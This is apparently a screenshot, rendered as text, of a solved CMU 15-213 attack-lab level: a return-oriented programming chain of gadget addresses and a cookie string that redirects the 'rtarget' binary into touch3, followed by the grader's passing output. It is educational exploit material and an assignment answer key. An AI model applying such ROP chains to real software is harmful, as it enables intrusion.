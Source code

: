   10 ~ │ dd 19 40 00 00 00 00 00     /* movl %eax, %edx */
  11 ~ │ 70 1a 40 00 00 00 00 00     /* movl %edx, %ecx */
  12 ~ │ 13 1a 40 00 00 00 00 00     /* movl %ecx, %esi */
  13 ~ │ d6 19 40 00 00 00 00 00     /* lea  (%rdi,%rsi,1),%rax */
  14 ~ │ a2 19 40 00 00 00 00 00     /* movq %rax, %rdi */
  15 ~ │ fa 18 40 00 00 00 00 00     /* touch3 address */
  16 ~ │ 35 39 62 39 39 37 66 61     /* cookie string*/
Continuing.
Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AD 1A 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 CC 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 DD 19 40 00 00 00 00 00 70 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 
[Inferior 1 (process 33294) exited normally]